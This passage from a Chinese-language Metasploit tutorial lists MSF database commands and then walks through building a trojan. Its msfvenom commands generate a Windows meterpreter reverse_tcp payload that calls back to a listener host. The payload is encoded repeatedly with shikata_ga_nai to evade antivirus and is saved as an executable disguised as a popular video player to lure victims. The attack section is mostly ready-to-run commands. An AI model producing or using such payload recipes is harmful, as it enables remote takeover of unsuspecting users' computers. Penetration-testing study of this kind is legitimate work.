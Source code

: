 ### 2. 使用 MSF 扫描 MYSQL 服务空密码

> 这里主要讲 MSF 的进阶使用
>
> 数据库后端命令：
>
> * db\_connect 连接到现有的数据库
> * db\_disconnect 断开与当前数据库实例的连接
> * db\_export 导出包含数据库内容的文件
> * db\_import 导入扫描结果文件

```shell
creds  # 列出数据库中所有凭据
db_export -f xml /rppt/bak.xml  # 将数据导出到指定文件
// 另一个 MSF 命令窗口
msfdb reinit  # MSF 的数据库清除
hosts  #  所有渗透测试记录
db_import 文件  # 将文件导入数据库中
services  # 所有的目标在当前数据库中的服务信息
	services -R  IP # 展示指定目标的信息
```

### 3. 客户端渗透原理

> 在无法突破对方网络边界的时候，往往需要使用客户端渗透这种方式对目标发起攻击，比如我们向目标发一个含有后门的程序或者是一个 word 文档、PDF 文件

#### 1. 制作 Windows 恶意软件获取 shell

> msfvenom 是 msfpayload msfencode 的2结合体，可以利用 msfvenom 生成木马程序，并在目标机上执行，在本地监听

1. 目标： 使用 msfvenon 生成快播和西瓜影音看片神奇后门木马
2. 流程：&#x20;
3.  生成后门程序

    ```shell
    # 使用一个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符坏字符会影响 payload  执行
    	-e x86/shikata_ga_nai # 指定编码器，面杀
    	-i 10 # 指定编码次数
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    	
    # 使用两个编码器
    msfvenom # 工具
    	-a x86 # 指定架构
    	--platform windows # 指定平台
    	-p windows/meterpreter/reverse_tcp LHOST=192.168.18.143 LPORT=444 # 指定攻击载荷
    	-b "\x00" # 去掉坏字符
    	-e x86/shikata_ga_nai   # 指定编码器，面杀
    	-i 20 # 指定编码次数
    	| # 连接符
    	msfvenom -a x86 --platform windows -e x86/alpha_upper -i 10 # 第二个编码器
    	-f exe # 指定输出文件格式
    	-o /ver/www/html/西瓜影音1.exe  # 文件输出位置
    ```
4.  使用 MSF 监听
